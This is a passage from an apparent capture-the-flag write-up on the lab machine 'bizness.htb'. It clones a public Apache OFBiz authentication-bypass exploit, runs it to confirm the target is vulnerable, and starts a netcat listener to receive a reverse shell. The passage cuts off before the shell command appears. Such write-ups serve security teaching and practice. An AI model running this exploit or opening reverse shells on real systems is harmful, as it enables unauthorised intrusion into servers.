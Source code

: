 ![Important vulnerability in apache ofbiz](/assets/images/Bizness/important_vulnerability_apache_ofbiz.png)

Researching, we found [this exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass):

Let's use it to gain a reverse shell:

```bash
❯ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass
Cloning into 'Apache-OFBiz-Authentication-Bypass'...
remote: Enumerating objects: 19, done.
remote: Counting objects: 100% (14/14), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 19 (delta 3), reused 7 (delta 1), pack-reused 5
Receiving objects: 100% (19/19), 51.44 MiB | 5.17 MiB/s, done.
Resolving deltas: 100% (3/3), done.
❯ cd Apache-OFBiz-Authentication-Bypass
❯ python3 exploit.py --url https://bizness.htb
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.
```

It seems to be vulnerable so let's try to run a command to gain reverse shell access:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```
